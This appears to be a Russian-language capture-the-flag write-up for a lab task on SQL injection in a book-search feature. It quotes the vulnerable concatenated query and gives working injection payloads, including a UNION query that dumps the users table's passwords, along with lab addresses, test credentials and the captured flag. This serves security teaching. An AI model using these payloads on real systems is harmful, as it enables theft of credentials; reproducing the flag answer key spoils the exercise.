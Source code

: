 ## Задание 9
### Цель
На страницу добавлена новая функция, и теперь можно искать книги в базе данных. Новая функция поиска уязвима для 
SQL- инъекции, поскольку она объединяет пользовательский ввод непосредственно в оператор SQL . Цель задачи — 
использовать эту уязвимость для поиска скрытого флага.  

### Описание
Когда пользователь впервые входит в игру, ему отображается сообщение: 

Тестируем новую функцию поиска книг, ознакомьтесь с ней здесь
Текст «здесь» представляет собой ссылку, ведущую пользователя на  http://MACHINE_IP:5000/challenge6/book?title=test ,
страницу, содержащую уязвимую функцию поиска, ее можно увидеть здесь: 



Веб-страница выполняет запрос GET с параметром titleпри поиске книги. Запрос, который она выполняет, можно увидеть здесь:

`SELECT  *  from  books  WHERE  id  =  ( SELECT  id  FROM  books  WHERE  title like  ' " + title + "% ' )`
Все, что нам нужно сделать, чтобы злоупотребить этим, — закрыть операнд LIKE справа от оператора LIKE. Например, мы 
можем сбросить все книги в базе данных, введя следующую команду: 

`' )  или  1 = 1 -- -`
### Задача
Используйте то, что вы узнали о SQL - инъекции на основе UNION, и воспользуйтесь уязвимой функцией поиска книг, 
чтобы получить флаг. 

### Ответить на вопросы ниже
```commandline
# task 9
http://10.10.255.151:5000/challenge6/login?next=http%3A%2F%2F10.10.255.151%3A5000%2Fchallenge6%2Fhome
http://10.10.255.151:5000/challenge6/signup
newuser
asd
http://10.10.255.151:5000/challenge6/login
newuser
asd
http://10.10.255.151:5000/challenge6/book?title=test
')UNION SELECT 1,2,3,group_concat(password) FROM users-- -
THM{27f8f7ce3c05ca8d6553bc5948a89210}
```
Какой флаг у этого испытания?
```commandline
THM{27f8f7ce3c05ca8d6553bc5948a89210}
```
